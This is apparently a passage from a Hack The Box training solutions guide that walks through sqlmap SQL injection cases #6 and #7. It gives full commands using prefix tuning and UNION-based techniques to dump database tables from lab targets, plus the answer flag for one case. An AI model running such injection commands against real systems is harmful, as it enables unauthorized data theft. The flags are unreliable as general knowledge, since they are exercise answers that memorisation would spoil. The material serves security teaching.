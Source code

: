 ```
┌─[us-academy-1]─[10.10.15.8]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ sqlmap -u 'http://206.189.24.232:31764/case6.php?col=id' --prefix='\`)' --batch --dump

        ___
       __H__
 ___ ___["]_____ ___ ___  {1.6.8#stable}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

<SNIP>

Database: testdb
Table: flag6
[1 entry]
+----+----------------------------------+
| id | content                          |
+----+----------------------------------+
| 1  | HTB{v1nc3_mcm4h0n_15_4570n15h3d} |
+----+----------------------------------+

<SNIP>
```

Answer: `HTB{v1nc3_mcm4h0n_15_4570n15h3d}`

# Attack Tuning

## Question 3

### "What's the contents of table flag7? (Case #7)"

Students first need to navigate to the website's root page of the spawned target and then click on "Case #7" to notice that they need to exploit the `GET` parameter `id` by using the UNION query-based technique (for a total number of five columns):

![[HTB Solutions/CPTS/z. images/77b3e79f56d8d610db3e34e835f602bf_MD5.jpg]]

Thus, the `sqlmap` command will be:

Code: shell

```shell
sqlmap -u 'http://STMIP:STMPO/case7.php?id=1' -T flag7 --technique=U --union-cols=5 --dump
```

```
┌─[us-academy-1]─[10.10.15.8]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ sqlmap -u 'http://206.189.24.232:31764/case7.php?id=1' --technique=U --union-cols=5 --batch --dump

        ___
       __H__
 ___ ___["]_____ ___ ___  {1.6.8#stable}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

<SNIP>

Database: testdb
Table: flag7
[1 entry]
+----+-----------------------+
```